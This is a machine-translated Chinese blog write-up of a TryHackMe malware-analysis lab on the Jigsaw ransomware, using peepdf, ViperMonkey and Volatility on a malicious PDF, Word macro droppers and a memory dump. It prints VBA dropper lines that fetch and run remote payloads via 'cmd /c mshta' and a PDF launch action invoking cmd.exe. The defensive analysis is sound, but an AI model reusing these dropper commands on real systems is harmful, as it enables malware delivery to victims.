





# TryHackMe 报道:对 Jigsaw 勒索软件的粗略分析

> 原文：<https://infosecwriteups.com/tryhackme-writeup-a-cursory-analysis-of-the-jigsaw-ransomware-ee949b444f3f?source=collection_archive---------2----------------------->

安索姆软件造成了数百万美元的损失和极度的悲痛，让计算机世界陷入了疯狂。这当然是信息安全部门应该解决的问题。我打算通过讨论我在 TryHackMe room 的方向上分析一个名为 *Jigsaw* 的勒索软件的经历来为这个领域做出贡献。


部分影像成分来自:[《艾娃麦克斯》(2018)](https://youtu.be/WXBHCQYxwr0)[《cmnatic》(2020)](https://tryhackme.com/room/malremnuxv2)。

# 目录一览

1.  背景
2.  程序
3.  讨论
4.  结论
5.  参考

# 背景

我将把勒索软件定义为“*一种恶意软件，它要么锁定你的电脑屏幕，要么加密你的文件[并且你会被告知]你必须支付赎金才能重新获得对你的电脑和/或文件的访问，并提供如何操作的说明*。([思茅等人 2019](https://www.usenix.org/conference/soups2019/presentation/simoiu) )。勒索软件对“真实世界”经济([Hernandez-Castro et al . 2017](https://doi.org/10.48550/arXiv.1703.06660))甚至加密货币经济学( [Conti et al. 2018](https://doi.org/10.1016/j.cose.2018.08.008) )造成了重大影响；[Zimba&Chishimba 2019](https://doi.org/10.1007/s41125-019-00039-8))。显然，这是一个需要由信息安全专业人员来解决的问题。

勒索软件可以通过计算机恶意软件分析的方法来解决。本房间( ["cmnatic" 2020](https://tryhackme.com/room/malremnuxv2) )介绍了一些数字取证和恶意软件分析工具，并通过分析一种名为 *Jigsaw* 的勒索病毒株来展示它们的特性——这是 2016 年至 2017 年的一种突出的勒索病毒株(参见[Byrne&Thorpe 2017](https://www.proquest.com/openview/afcfc630d5877520a0734e706402d403/)；[奥凯恩等人 2018](https://doi.org/10.1049/iet-net.2017.0207)；[艾布拉姆斯 2016](https://www.bleepingcomputer.com/news/security/jigsaw-ransomware-decrypted-will-delete-your-files-until-you-pay-the-ransom/) 。本文结合我的经验对 Jigsaw 勒索软件做了初步的分析。

# 程序

关于 Jigsaw 勒索软件的分析的以下目标如下:分析关于 Jigsaw 勒索软件的 PDF 文件、Microsoft Office 宏和可执行文件，识别混淆代码并进行去混淆和分析，以及分析感染了 Jigsaw 勒索软件的计算机系统的转储物理存储器。(转述自[《cmnantic》2020](https://tryhackme.com/room/malremnuxv2))。

我将通过 SSH 服务连接到一台 *TryHackMe* 机器，并使用命令行工具来分析关于受感染计算机系统的取证工件。我修改了我的 AttackerBox `/etc/hosts`文件，使其包含一个不断变化的要连接的机器的动态 IP 地址的条目，单击该房间第二个任务右上角的绿色“start[m]machine”按钮，开始连接机器并开始分析。

## PDF 滴管的粗略分析

我将从分析`advert.pdf`开始，这是一个法医 PDF 工件。我使用了`peepdf`工具来完成这项任务。**`peepdf`([Esparza n . d .](https://github.com/jesparza/peepdf))是用于分析 PDF 取证工件的命令行工具。我用它分析了一个名为`notsuspicious.pdf`的法医 PDF 工件，并转储了关于它的基本信息:**

```
**remnux@thm-remnux:~/Tasks/3$ peepdf notsuspicious.pdf**
Warning: PyV8 is not installed!!

File: notsuspicious.pdf
MD5: 2992490eb3c13d8006e8e17315a9190e
SHA1: 75884015d6d984a4fcde046159f4c8f9857500ee
SHA256: 83fefd2512591b8d06cda47d56650f9cbb75f2e8dbe0ab4186bf4c0483ef468a
Size: 28891 bytes
Version: 1.7
Binary: True
Linearized: False
Encrypted: False
Updates: 0
Objects: 18
Streams: 3
URIs: 0
Comments: 0
Errors: 0
Version 0:
        Catalog: 1
        Info: 7
        Objects (18): [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18]
        Streams (3): [4, 15, 18]
                Encoded (2): [15, 18]
        Objects with JS code (1): [6]
        Suspicious elements:
                /OpenAction (1): [1]
                /JS (1): [6]
                /JavaScript (1): [6]
```

**输出报告文件的基本信息，如文件名、大小(以字节为单位)、加密校验和、对象数量、加密状态等。它还报告了 PDF 文档中可疑元素的数量——例如 *JavaScript* 和*打开操作*的数量(请参见 [Adobe c.a. 2022](https://helpx.adobe.com/acrobat/using/applying-actions-scripts-pdfs.html) 了解更多信息)。**

**为了调查可疑的 JavaScript，我指示`peepdf`提取`notsuspicious.pdf`文件中的 JavaScript，然后使用`cat`转储其内容:**

```
**remnux@thm-remnux:~/Tasks/3$ peepdf -C "extract js > notsuspicious.js" notsuspicious.pdf**
**remnux@thm-remnux:~/Tasks/3$ cat notsuspicious.js**
// peepdf comment: Javascript code located in object 6 (version 0)

app.alert("THM{redacted}");**remnux@thm-remnux:~/Tasks/3$**
```

**这只是一个标志，以满足完成房间的先决条件。然后，我继续转储关于`advert.pdf`的基本信息，这是分配给用户的另一个法医 PDF 工件:**

```
**remnux@thm-remnux:~/Tasks/3$ peepdf advert.pdf**
Warning: PyV8 is not installed!!

File: advert.pdf
MD5: 1b79db939b1a77a2f14030f9fd165645
SHA1: e760b618943fe8399ac1af032621b6e7b327a772
SHA256: 09bb03e57d14961e522446e1e81184ca0b4e4278f080979d80ef20dacbbe50b7
Size: 74870 bytes
Version: 1.7
Binary: True
Linearized: False
Encrypted: False
Updates: 2
Objects: 29
Streams: 6
URIs: 0
Comments: 0
Errors: 1

Version 0:
        Catalog: 1
        Info: 9
        Objects (22): [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22]
        Compressed objects (7): [10, 11, 12, 13, 14, 15, 16]
        Streams (5): [4, 17, 19, 20, 22]
                Xref streams (1): [22]
                Object streams (1): [17]
                Encoded (4): [4, 17, 19, 22]
        Suspicious elements:
                /Names (1): [13]

Version 1:
        Catalog: 1
        Info: 9
        Objects (0): []
        Streams (0): []

Version 2:
        Catalog: 1
        Info: 9
        Objects (7): [1, 3, 24, 25, 26, 27, 28]
        Streams (1): [26]
                Encoded (1): [26]
        Objects with JS code (1): [27]
        Suspicious elements:
                /OpenAction (1): [1]
                /Names (2): [24, 1]
                /AA (1): [3]
                /JS (1): [27]
                /Launch (1): [28]
                /JavaScript (1): [27]
```

**`advert.pdf`有六(6)种不同类别的可疑元素。接下来，我在这个 PDF 文档中转储了 JavaScript 和任何潜在的统一资源标识符(参见 [Berners-Lee 2005](https://www.rfc-editor.org/rfc/rfc3986) ):**

```
**remnux@thm-remnux:~/Tasks/3$ peepdf -C "extract js > advert.js" advert.pdf
remnux@thm-remnux:~/Tasks/3$ cat advert.js**
// peepdf comment: Javascript code located in object 27 (version 2)

this.exportDataObject({
    cName: "notsuspicious",
    nLaunch: 0
});**remnux@thm-remnux:~/Tasks/3$ peepdf -C "extract uri > advert.uri.txt" advert.pdf
remnux@thm-remnux:~/Tasks/3$ cat advert.uri.txt
remnux@thm-remnux:~/Tasks/3$**
```

**似乎可能有一些可执行代码和动态脚本与这个 PDF 文件和`notsuspicious.pdf`相关联，所以我将使用`strings`实用程序( [Linux 手册页 n.d.](https://linux.die.net/man/1/strings) )转储这两个 PDF 文档的字符串:**

```
**remnux@thm-remnux:~/Tasks/3$ strings advert.pdf**
%PDF-1.7
1 0 obj
<</Type/Catalog/Pages 2 0 R/Lang(en-GB) /StructTreeRoot 10 0 R/MarkInfo<</Marked true>>/Metadata 20 0 R/ViewerPreferences 21 0 R>>
endobj
2 0 obj

[... snip ...]

#5/PT3
eR~j
endstream
endobj
27 0 obj
<</S/JavaScript/JS(this.exportDataObject({ cName: "notsuspicious", nLaunch: 0 });)/Type/Action>>
endobj
28 0 obj
<</S/Launch/Type/Action/Win<</F(cmd.exe)/D(c:\\windows\\system32)/P(/Q /C %HOMEDRIVE%&cd %HOMEPATH%&(if exist "Desktop\\notsuspicious.pdf" (cd "Desktop"))&(if exist "My Documents\\notsuspicious.pdf" (cd "My Documents"))&(if exist "Documents\\notsuspicious.pdf" (cd "Documents"))&(if exist "Escritorio\\notsuspicious.pdf" (cd "Escritorio"))&(if exist "Mis Documentos\\notsuspicious.pdf" (cd "Mis Documentos"))&(start notsuspicious.pdf)
To view the encrypted content please tick the "Do not show this message again" box and press Open.)>>>>
endobj
1 0 obj
<</Type/Catalog/Pages 2 0 R/Names 23 0 R/OpenAction 27 0 R/Lang(en-GB) /StructTreeRoot 10 0 R/MarkInfo<</Marked true>>/Metadata 20 0 R/ViewerPreferences 21 0 R>>
endobj
3 0 obj
<</Type/Page/Parent 2 0 R/Resources<</Font<</F1 5 0 R>>/ExtGState<</GS7 7 0 R/GS8 8 0 R>>/ProcSet[/PDF/Text/ImageB/ImageC/ImageI] >>/MediaBox[ 0 0 595.32 841.92] /Contents 4 0 R/Group<</Type/Group/S/Transparency/CS/DeviceRGB>>/Tabs/S/StructParents 0/AA<</O 28 0 R>>>>

[... snip ...]

**remnux@thm-remnux:~/Tasks/3$ strings notsuspicious.pdf**
%PDF-1.7
1 0 obj
/Type /Catalog
/Pages 2 0 R
/Lang (en-GB)
/StructTreeRoot 3 0 R
/MarkInfo <<
/Marked true
/Metadata 4 0 R
/ViewerPreferences 5 0 R
/OpenAction 6 0 R
endobj
7 0 obj
/Author (Ben)
/Creator <FEFF004D006900630072006F0073006F0066007400AE00200057006F0072006400200066006F00720020004D006900630072006F0073006F006600740020003300360035>
/CreationDate (D:20201020182347+01'00')
/ModDate (D:20201020182347+01'00')
/Producer <FEFF004D006900630072006F0073006F0066007400AE00200057006F0072006400200066006F00720020004D006900630072006F0073006F006600740020003300360035>
endobj

[... snip ...]
```

**我试图从这些信息中得到一些关于 PDF 文档行为的线索。从`advert.pdf`文件的字符串来看，似乎有启动`cmd.exe`并依赖于`notsuspicious.pdf`的可执行代码。然后我转储了`notsuspicious.pdf`的字符串，它似乎没有任何有用的信息。**

**稍后我将详细阐述这些发现，现在开始对 *Microsoft Word* (参见 [Microsoft n.d.](https://www.microsoft.com/en-us/microsoft-365/microsoft-office) )宏进行粗略分析。**

## **Word 宏滴管浅析**

**我将继续分析被怀疑含有滴管的*微软 Word* 文档。我使用了 *ViperMonkey* 工具包( [Lagadec n.d.](https://github.com/decalage2/ViperMonkey) )来分析来自所述可疑 Word 文档的 Visual Basic 宏——从名为`DefinitelyALegitInvoice.doc`的取证工件开始**

```
**remnux@thm-remnux:~/Tasks/4$ vmonkey DefinitelyALegitInvoice.doc**
 _    ___                 __  ___            __             
| |  / (_)___  ___  _____/  |/  /___  ____  / /_____  __  __
| | / / / __ \/ _ \/ ___/ /|_/ / __ \/ __ \/ //_/ _ \/ / / /
| |/ / / /_/ /  __/ /  / /  / / /_/ / / / / ,< /  __/ /_/ / 
|___/_/ .___/\___/_/  /_/  /_/\____/_/ /_/_/|_|\___/\__, /  
     /_/                                           /____/   
vmonkey 0.08 - https://github.com/decalage2/ViperMonkey
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/ViperMonkey/issues

===============================================================================
FILE: DefinitelyALegitInvoice.doc
INFO     Starting emulation...
INFO     Emulating an Office (VBA) file.
INFO     Reading document metadata...

[... snip ...]
```

**出于可读性的目的，我将编辑原始输出，但将描述它的输出。下表总结了由`vmonkey`完成的分析:**

****

**表 1:`DefinitelyALegitInvoice.doc`宏行为总结。**

**`vmonkey`标识了一个名为`DefoLegit`的函数，并显示它通过`cmd.exe`执行一个命令，以从远程位置执行一个 *HTML 应用*(参见 [Cooper et al. 2003](https://patents.google.com/patent/US6662341B1/en) )有效载荷。以下是该函数的代码:**

```
' VBA CODE (with long lines collapsed):
Private Sub DefoLegit()
    Shell ("cmd /c mshta http://10.0.0.10:4444/MyDropper.exe")
End Sub
```

**`DefoLegit`通过`Shell`命令从 *HTML 应用程序*获取可执行的滴管。`vmonkey`还输出了以下内容作为妥协的候选指标:**

```
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'
INFO     Found possible intermediate IOC (URL): 'http://10.0.0.10:4444/MyDropper.exe'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'
```

**这一切都很有趣。我现在将重复我用来分析`DefinitelyALegitInvoice.doc`的过程，来分析另一个名为`Taxes2020.doc`的 Word 文档**

```
**remnux@thm-remnux:~/Tasks/4$ vmonkey Taxes2020.doc**
 _    ___                 __  ___            __             
| |  / (_)___  ___  _____/  |/  /___  ____  / /_____  __  __
| | / / / __ \/ _ \/ ___/ /|_/ / __ \/ __ \/ //_/ _ \/ / / /
| |/ / / /_/ /  __/ /  / /  / / /_/ / / / / ,< /  __/ /_/ / 
|___/_/ .___/\___/_/  /_/  /_/\____/_/ /_/_/|_|\___/\__, /  
     /_/                                           /____/   
vmonkey 0.08 - https://github.com/decalage2/ViperMonkey
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/ViperMonkey/issues

===============================================================================
FILE: Taxes2020.doc
INFO     Starting emulation...
INFO     Emulating an Office (VBA) file.
INFO     Reading document metadata...

[... snip ...]
```

**正如我对`DefinitelyALegitInvoice.doc`的分析一样，为了简洁起见，我将编辑`Taxes2020.doc`的大部分输出。下表是由`vmonkey`生成的宏及其各自行为的总结:**

****

**表 2:`Taxes2020.doc`宏行为总结。**

**以下是`Taxes2020.doc`有效载荷的源代码:**

```
' VBA CODE (with long lines collapsed):
Private Sub X544FE()
    Shell ("cmd /c mshta http://tryhackme.com/notac2cserver.sh")
End Sub
```

**`vmonkey`还生成了以下内容作为`Taxes2020.doc`的潜在危害指标:**

```
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'
INFO     Found possible intermediate IOC (URL): 'http://tryhackme.com/notac2cserver.sh'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'
```

**关于`Taxes2020.doc`，它遵循相同的基本逻辑，通过`Shell`命令和`cmd.exe`执行 HTML 应用有效载荷。**

**随着滴管分析的结束，我觉得我现在有足够的上下文来分析被 Jigsaw 勒索软件感染的计算机系统的物理内存转储。**

## **物理内存转储的粗略分析**

**我使用 *Volatility Framework* (参见[Volatility Foundation n . d .](https://www.volatilityfoundation.org/about))来分析感染了 Jigsaw 勒索软件的计算机系统的物理内存转储。我首先指示`volatility`从内存转储中找出 Microsoft Windows 的哪个主要版本以及哪个服务包正在被感染的系统上运行:**

```
**remnux@thm-remnux:~/Tasks/6$ volatility -f Win7-Jigsaw.raw imageinfo**
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography.hazmat.backends.openssl import backend
INFO    : volatility.debug    : Determining profile based on KDBG search...
          ***Suggested Profile(s) : Win7SP1x64, Win7SP0x64***, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/remnux/Tasks/6/Win7-Jigsaw.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf6fc00016130L
          Number of Processors : 2
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002c02000L
                KPCR for CPU 1 : 0xfffff88002f00000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2020-10-20 17:21:03 UTC+0000
     Image local date and time : 2020-10-20 18:21:03 +0100
**remnux@thm-remnux:~/Tasks/6$**
```

**从`volatility`的输出中，我可以推断出*带有服务包*的微软 Windows 7* (参见[微软 n.d.-b](https://support.microsoft.com/en-us/windows/install-windows-7-service-pack-1-sp1-b3da2c0f-cdb6-0572-8596-bab972897f61) )正在被感染的系统上运行，并且被感染的系统使用的是 x86_64 指令集(参见[陈 2022](https://devblogs.microsoft.com/oldnewthing/20220831-00/?p=107077) )。现在我知道了运行的是哪个版本的 Windows，我可以定制`volatility`来对适当的概要文件进行分析。我首先转储了受感染系统上正在运行的进程:***

```
**remnux@thm-remnux:~/Tasks/6$ volatility -f Win7-Jigsaw.raw --profile=Win7SP1x64 pslist**
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography.hazmat.backends.openssl import backend

[... snip ...]
```

**下表描述了执行命令的结果:**

****

**表 3 —请注意，该表可能存在一些渲染错误。**

**从这个进程列表来看，Jigsaw 勒索软件可能正在使用某种进程注入技术(参见 [Hosseini 2017](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process) )，并正在使用 [Dropbox (n.d.)](https://www.dropbox.com/dropbox) 进行数据渗透，或用于命令和控制目的。`drpbx.exe`模块的进程 ID 是 3704，所以我指示`volatility`枚举可执行文件使用的动态链接库:**

```
**remnux@thm-remnux:~/Tasks/6$ volatility -f Win7-Jigsaw.raw --profile=Win7SP1x64 dlllist -p 3704**
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography.hazmat.backends.openssl import backend
************************************************************************
drpbx.exe pid:   3704
Command line : "C:\Users\CMNatic\AppData\Local\Drpbx\drpbx.exe" C:\Users\CMNatic\Desktop\jigsaw.exe
Service Pack 1

[... snip ...]
```

**下表描述了运行此命令的结果:**

****

**表 4**

**一个有趣的加载 DLL 是`CRYPTBASE.dll`，是 Windows 开发者用于加密函数的库([进程列表 n.d.](https://www.processlibrary.com/en/directory/files/cryptbase/4691/) )。虽然该 DLL 通常是安全的，但它可以在勒索软件活动中用于加密文件。这可以作为进一步分析的基础。**

# **讨论**

**我的分析是相当初步的，只是“触及”了一项全面调查所需做的众所周知的表面工作。其他信息安全的研究人员和学生已经基于这个房间做了他们对 Jigsaw 勒索病毒的分析([Bagde 2021](https://overide.medium.com/mal-remnux-the-redux-tryhackme-writeup-2402bba5cc79)； [Khan 2021](https://shamsher-khan-404.medium.com/mal-remnux-the-redux-tryhackme-8d257a6a5665) )我也推荐阅读这些文章，了解进行这类勒索软件分析的其他观点和方法。**

**值得注意的一件事是，在做渗透测试时，我确实有过通过命令行中的`mshta.exe`用微软的 HTML 应用程序执行有效载荷的经验。例如，我修改了一个用微软 C#编写的反向 shell stager(参见 [Wagner 等人 2022](https://learn.microsoft.com/en-us/dotnet/csharp/programming-guide/) )，在易受其攻击的网站上触发文件上传漏洞后执行反向 meter preter shell([Metasploit Unleashed n . d .](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/))(参见[“Aleksey”2022](/tryhackme-writeup-hackpark-bd9c075c5262))。我认为，这可以作为更多的证据，如果做得好，微软的 HTML 应用程序可以在向预定目标交付有效载荷方面发挥作用。**

## **限制**

**应该注意的是，我只是浏览了一下这个房间，只是粗略地分析了一下内存转储及其相关的丢弃器。需要进行更多的分析来了解 Jigsaw 勒索软件的功能。**

**关于 PDF 文档分析的局限性，我无法找出他们具体做了什么。我才发现他们执行的是 JavaScript 代码，彼此之间有某种关联。这与该房间发现与攻击者的机器相关联的 IP 地址和端口号形成对比(图 1):**

****

**图 1，图像鸣谢:[《cmnatic》(2020)](https://tryhackme.com/room/malremnuxv2)。**

**关于*蝮蛇猴*的结果，它输出了一些 URIs 作为**潜在**妥协的指标。这里的关键词是“潜在的”，因为分析师需要判断哪些 URIs 与攻击者有关，哪些是良性的。**

**例如，以下内容很可能与攻击者有关:**

```
INFO     Found possible intermediate IOC (URL): 'http://tryhackme.com/notac2cserver.sh'
```

**以下是最有可能**与**无关的攻击者:**

```
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'
```

**这个故事的主旨是不要过于依赖安全工具的输出，而是根据需要使用直觉、常识和良好的判断。**

## **减轻**

**正如我之前所讨论的，应该做更多的分析来弄清楚这种恶意软件是如何工作的，以便发明更好的缓解技术。尽管如此，还是有办法面对不确定性。例如， [Laszka 等人(2017](https://link.springer.com/chapter/10.1007/978-3-319-68711-7_21) )讨论了勒索软件的经济学，并提到备份可以作为一种减轻其不良影响的机制。**

# **结论**

**我已经证明了诸如`peepdf`、 *Viper Monkey* 和 *Volatility Framework* 这样的工具在分析勒索软件的 *Jigsaw* 菌株时是有用的。我已经讨论了我的分析的局限性，以及需要如何做进一步的工作来“弄清楚” *Jigsaw* 是如何工作的，以及如何最好地减轻它。**

## **插头**

**对于喜欢我的作品但尚未注册 Medium 会员计划的读者，如果他们能通过我的推荐链接注册，我将不胜感激(这在经济上帮助了我 https://medium.com/membership/@EpsilonCalculus ❤️):**

**此外，对于任何喜欢我关于恶意软件分析和 CTF 的文章的读者，我欢迎他们查看我的技术系列，在那里我讨论了这些主题和更多内容:**

**

[阿列克谢](https://medium.com/@EpsilonCalculus?source=post_page-----ee949b444f3f--------------------------------)** 

## **技术报道**

**[View list](https://medium.com/@EpsilonCalculus/list/technical-writeups-63f8cfbee59c?source=post_page-----ee949b444f3f--------------------------------)****43 stories**************

# **参考**

**艾布拉姆斯，L. (2016)。*拼图勒索软件解密:将删除你的文件，直到你支付赎金*。哔哔作响的电脑。2022 年 11 月 28 日检索自:[https://www . bleeping computer . com/news/security/jigsaw-ransomware-decrypted-will-delete-you-files-until-you-pay-the-ransom/](https://www.bleepingcomputer.com/news/security/jigsaw-ransomware-decrypted-will-delete-your-files-until-you-pay-the-ransom/)**

**Adobe(公元 2022 年)。*将动作和脚本应用到 pdf*。2022 年 11 月 28 日检索自:[https://helpx . adobe . com/acrobat/using/applying-actions-scripts-pdf . html](https://helpx.adobe.com/acrobat/using/applying-actions-scripts-pdfs.html)**

**《阿列克谢》(2022)。 *TryHackMe 报道:HackPark* 。信息安全报道。2022 年 11 月 29 日检索自:[https://infosecwriteups . com/tryhackme-writeup-hack park-bd9c 075 c 5262](/tryhackme-writeup-hackpark-bd9c075c5262)**

**《艾娃麦克斯》(2018)。*甜美却神经病【官方音乐视频】*。YouTube 视频。2022 年 11 月 29 日检索自:[https://youtu.be/WXBHCQYxwr0](https://youtu.be/WXBHCQYxwr0)**

**茨韦塔纳·伯纳斯·李(2005)。统一资源标识符(URI):通用语法。互联网工程任务组。2022 年 11 月 28 日检索自:[https://www.rfc-editor.org/rfc/rfc3986](https://www.rfc-editor.org/rfc/rfc3986)**

**巴格德(2021)。MAL: REMnux-The Redux TryHackMe 书面报道。2022 年 11 月 29 日检索自:[https://overide . medium . com/mal-remnux-the-redux-tryhackme-writeup-2402 BBA 5 cc 79](https://overide.medium.com/mal-remnux-the-redux-tryhackme-writeup-2402bba5cc79)**

**伯恩博士和索普博士(2017 年)。*拼图:勒索软件攻击的调查与对策*。欧洲网络战与安全会议。ProQuest。[https://www . proquest . com/openview/AFC fc 630d 5877520 a 0734 e 706402d 403/](https://www.proquest.com/openview/afcfc630d5877520a0734e706402d403/)**

**陈(2022)。*x86–64 处理器(又名 amd64、x64):旋风之旅*。旧的新事物。2022 年 11 月 29 日检索:[https://devblogs.microsoft.com/oldnewthing/20220831-00/?p=107077](https://devblogs.microsoft.com/oldnewthing/20220831-00/?p=107077)**

**《cmnatic》(2020)。*MAL:REMnux—Redux*。TryHackMe。2022 年 11 月 28 日检索自:[https://tryhackme.com/room/malremnuxv2](https://tryhackme.com/room/malremnuxv2)**

**康蒂，m .，冈瓦尔，a .，和鲁杰，S. (2018)。从比特币交易的角度看勒索病毒活动的经济意义。*在计算机&安全(第 79 卷，第 162–189 页)*。爱思唯尔 BV。[https://doi.org/10.1016/j.cose.2018.08.008](https://doi.org/10.1016/j.cose.2018.08.008)**

**库珀，P. R .，科恩菲尔德，L. M .和查维斯，R. A. (2003 年)。*用 HTML 编写视窗应用程序的方法和装置*(美国 6662341-B1)。美国专利商标局。[https://patents.google.com/patent/US6662341B1/en](https://patents.google.com/patent/US6662341B1/en)**

**Dropbox(未标明)。2022 年 11 月 29 日检索自:[https://www.dropbox.com/dropbox](https://www.dropbox.com/dropbox)**

**埃斯帕尔扎，法学硕士(未注明)。 *peepdf:* *分析 pdf 文档的强大 Python 工具*。GitHub 仓库。2022 年 11 月 28 日检索自:[https://github.com/jesparza/peepdf](https://github.com/jesparza/peepdf)**

**埃尔南德斯·卡斯特罗、卡特赖特和斯捷潘诺娃(2017 年)。*勒索软件的经济分析*。arXiv。[https://doi.org/10.48550/arXiv.1703.06660](https://doi.org/10.48550/arXiv.1703.06660)**

